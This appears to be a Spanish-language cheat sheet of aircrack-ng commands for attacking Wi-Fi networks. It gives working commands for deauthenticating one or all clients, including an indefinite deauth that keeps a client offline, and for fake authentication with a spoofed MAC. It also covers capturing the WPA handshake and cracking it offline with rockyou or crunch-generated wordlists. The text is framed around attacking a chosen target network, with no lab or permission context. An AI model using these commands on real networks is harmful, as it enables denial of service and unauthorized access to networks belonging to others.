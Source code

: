 # Tecnica de Deautenticacion
```bash
aireplay-ng -0 10 -e [Nombredered] -c [Canal] [StationDelCliente] wlan0
```

# Tecnica de Deautenticacion global
```bash
aireplay-ng -0 10 -e [Nombredered] -c [Canal] FF:FF:FF:FF:FF:FF wlan0
```

# Es lo mismo pero mas facil de recordar
```bash
aireplay-ng -0 10 -e [Nombredered] wlan0
```

# Sacas al cliente y no puede conectarse hasta que canceles con CTRL
```bash
aireplay-ng -0 0 -e Nombredered] [StationDelCliente] wlan0
```

# Tecnica de falsa Autenticacion 
```bash
aireplay-ng -1 0 -e [Nombredered] -a [Bssiddelpuntodeacceso] -h [DireccionMacFalsa] wlan0
```

# Escaneo con guardado para captura de handshake de un punto de acceso wifi
```bash
airodump-ng --bssid mac --channel canal -w test_wifi antena
```

# Hariamos una deautenticacion y el escaneo capturaria el handshake cuando los dispositivos intenten reconectarse :
```bash
aireplay-ng -0 10 -e [Nombredered] -c [Canal] [StationDelCliente] wlan0
```

# Se nos crean los archivos en la carpeta que estabamos ubicados, el que tiene el HShake es el de formato .cap
```bash
aircrack-ng -b [BSSID] -w /usr/share/wordlists/rockyou.txt [NOMBREDEARCHIVO].cap
```

# Rockyou es un diccionario en Ingles el cual se usa para passwords asi que esto no sirve solo es una prueba ahora toca hacerte tu diccionario especifico para tu objetivo o conseguir uno en internet el cual sea para el router o region que tu necesitas atacar.

# Muchas veces las passwords del wifi son por defecto pero muchas otras si o si necesitas un diccionario con la informacion de la empresa o persona a la que pertenece esa red

# Si sospechas que la contrasena son numeros puedes hacer lo mismo  concatenando con crunch un script sencillo que sirve para crear wordlists

```bash
sudo crunch  08 30 12345  | aircrack-ng -b [BSSID] [NOMBREDEARCHIVO].cap -w-
```

